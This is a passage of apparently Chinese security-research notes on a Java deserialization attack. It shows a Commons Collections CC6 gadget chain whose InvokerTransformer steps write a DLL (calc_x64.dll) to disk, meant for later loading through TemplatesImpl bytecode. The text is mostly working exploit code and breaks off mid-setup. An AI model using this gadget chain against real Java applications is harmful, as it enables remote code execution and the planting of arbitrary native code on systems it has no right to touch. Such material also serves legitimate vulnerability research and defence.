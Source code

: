 

## CC写文件搭配字节码加载dll

由于invoke不能调用getDeclaredMethod，所以CC InvokerTransformer写文件后用TemplatesImpl字节码加载dll

先写dll：

```java
package org.exploit.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.HashMap;
import java.util.Map;

public class CC6writeFile {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                // 第一步：创建 FileOutputStream 对象
                new ConstantTransformer(java.io.FileOutputStream.class),
                new InvokerTransformer(
                        "getConstructor",
                        new Class[]{Class[].class},
                        new Object[]{new Class[]{String.class}}
                ),
                new InvokerTransformer(
                        "newInstance",
                        new Class[]{Object[].class},
                        new Object[]{new Object[]{"CC6calc.dll"}}
                ),
                // 第二步：调用 write 方法写入数据
                new InvokerTransformer(
                        "write",
                        new Class[]{byte[].class},
                        new Object[]{readFile("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\src\\main\\java\\org\\exploit\\loadDLL\\calc_x64.dll")}
                ),
                // 第三步：调用 close 方法关闭流
                new InvokerTransformer(
                        "close",
                        new Class[]{},
                        new Object[]{}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
```